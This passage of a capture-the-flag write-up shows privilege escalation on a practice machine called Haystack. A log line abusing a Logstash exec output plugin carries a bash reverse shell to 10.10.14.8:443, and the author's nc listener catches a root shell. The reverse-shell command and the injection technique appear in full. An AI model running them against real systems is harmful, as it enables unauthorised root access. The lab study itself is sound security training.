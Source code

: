 #### output.conf

Based on `output.conf`, input of type `execute` will be run using the `exec`
plugin. This plugin is typically only used as an input plugin.

    
    
    output {
            if [type] == "execute" {
                    stdout { codec => json }
                    exec {
                            command => "%{comando} &"
                    }
            }
    }
    

### Strategy

I’ll use [Herokuapp](http://grokdebug.herokuapp.com/) to test my log against
the filter. I’ll start with my filter in the second box:

![1561907471733](https://0xdfimages.gitlab.io/img/1561907471733.png)

Based on the regex, I can see it’s looking for “Ejecutar”, followed by 0 or
more space characters, then “comando” followed by 0 or more space characters,
the “:”, then one or more space characters. What’s left will be stored as
`comando`.

I can test this by adding in an input string, “Ejecutar comando: id”, and I
get output:

![1561907681441](https://0xdfimages.gitlab.io/img/1561907681441.png)

Knowing that the output will execute whatever is passed in as `comando`, I
will update my input to give a reverse shell:

    
    
     Ejecutar comando: bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'
    

### Shell

I’ll drop that log into a log file in the right directory:

    
    
    bash-4.2$ echo "Ejecutar comando: bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'"
    Ejecutar comando: bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'
    
    bash-4.2$ echo "Ejecutar comando: bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'" > /opt/kibana/logstash_0xdf
    

After a few seconds:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.115.
    Ncat: Connection from 10.10.10.115:40238.
    bash: no hay control de trabajos en este shell
    [root@haystack /]# id
    id
    uid=0(root) gid=0(root) grupos=0(root) contexto=system_u:system_r:unconfined_service_t:s0
    